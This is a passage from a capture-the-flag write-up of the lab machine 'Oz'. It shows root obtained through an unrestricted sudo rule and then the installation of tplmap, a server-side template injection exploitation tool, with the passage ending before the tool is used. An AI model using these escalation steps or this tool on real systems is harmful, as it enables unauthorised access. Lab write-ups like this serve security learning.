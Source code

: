 Then in dorthi shell:

```

dorthi@Oz:~$ sudo -l
Matching Defaults entries for dorthi on Oz:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dorthi may run the following commands on Oz:
    (ALL) NOPASSWD: ALL
    (ALL) NOPASSWD: /usr/bin/docker network inspect *
    (ALL) NOPASSWD: /usr/bin/docker network ls
dorthi@Oz:~$ sudo su
root@Oz:/home/dorthi# id
uid=0(root) gid=0(root) groups=0(root)

```

## Beyond Root

### tplmap

In doing this write-up, I came across [tplmap](https://github.com/epinna/tplmap), which I had not noticed months ago when I first solved Oz. I think it’s worth walking through manually, so I left the main write-up showing those steps, but I also wanted to play with a new tool, and it works pretty well.

#### Install

Really easy, just clone the repo:

```

root@kali:/opt# git clone https://github.com/epinna/tplmap.git
Cloning into 'tplmap'...
remote: Enumerating objects: 88, done.
remote: Counting objects: 100% (88/88), done.
remote: Compressing objects: 100% (47/47), done.
remote: Total 4059 (delta 39), reused 68 (delta 34), pack-reused 3971
Receiving objects: 100% (4059/4059), 639.25 KiB | 13.05 MiB/s, done.
Resolving deltas: 100% (2664/2664), done.

```

Now run it:

```

root@kali# /opt/tplmap/tplmap.py                     
[+] Tplmap 0.5
    Automatic Server-Side Template Injection Detection and Exploitation Tool  

Usage: python tplmap.py [options]

tplmap.py: error: URL is required. Run with -h for help. 

```
